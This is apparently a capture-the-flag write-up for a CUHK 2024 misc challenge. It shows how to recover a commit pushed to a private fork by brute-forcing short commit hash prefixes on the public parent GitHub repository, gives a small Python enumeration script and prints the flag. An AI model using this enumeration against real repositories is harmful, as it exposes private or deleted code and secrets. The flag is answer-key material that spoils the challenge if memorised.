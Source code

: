 ## Placeholder
> Author: chemistrying \
> Category: misc \
> Expected Difficulty: 3 \
> Final Points: 196 \
> Solves: 10/38 (Secondary), 8/44 (CUHK), 7/8 (Invited Teams)
> 
> I committed the flag to my private fork which is forked from one of my organization's repository

First, you have to first find the parent repository.

You can check [`chemistrying`](https://github.com/chemistrying/) GitHub profile and see which organization they are in.

Then, you can find [`CUHK-placeholder` organization](https://github.com/CUHK-placeholder), which contains a public repository called [`cuhk-placeholder`](https://github.com/CUHK-placeholder/cuhk-placeholder).

This repository name is same as the one forked in the photo, so it's pretty convicing that this repository is the parent of the fork.

Then, the whole idea is based on [this blog](https://trufflesecurity.com/blog/anyone-can-access-deleted-and-private-repo-data-github).

Basically, you can brute force commits created from a private fork which forks from a public repository. The picture in the description leaked the first three characters of the commit hash so you can brute force less characters (only $16$ requests needed). In other words, you only have to find from `https://github.com/CUHK-placeholder/cuhk-placeholder/commit/5390` to `https://github.com/CUHK-placeholder/cuhk-placeholder/commit/539f`.

![](19_sample.png)

Solve script:
```py
import requests, time

url = "https://github.com/CUHK-placeholder/cuhk-placeholder/commit/539{hash}"

last_fetch = 0
# loop from 5390 to 539f
for i in range(16):
    hash = "{:01x}".format(i)
    
    print(f"Checking commit prefix 539{hash}")
    # rate limit ourselves
    while time.time() - last_fetch < 1:
        pass
    last_fetch = time.time()

    # send a request
    r = requests.get(url.format(hash=hash))

    # if the request give a status code of 200, that means it's OK
    if r.status_code == 200:
        print(f"539{hash} is a valid commit")
        with open(f"539{hash}.html", "w") as f:
            f.write(r.text)
    elif r.status_code != 404:
        print("ERROR!")
        print(r.text)
        exit(0)
```
You can fetch from GitHub API as well. 

The flag is in [this](https://github.com/CUHK-Placeholder/cuhk-placeholder/commit/5393) webpage.

Flag: **`cuhk24ctf{geet_fork___3_c0mwit_pub11c_eVery1_kNoWs_CAAANT_hid_s3cr3t_BEWAaAaaaaAAaRE}`**
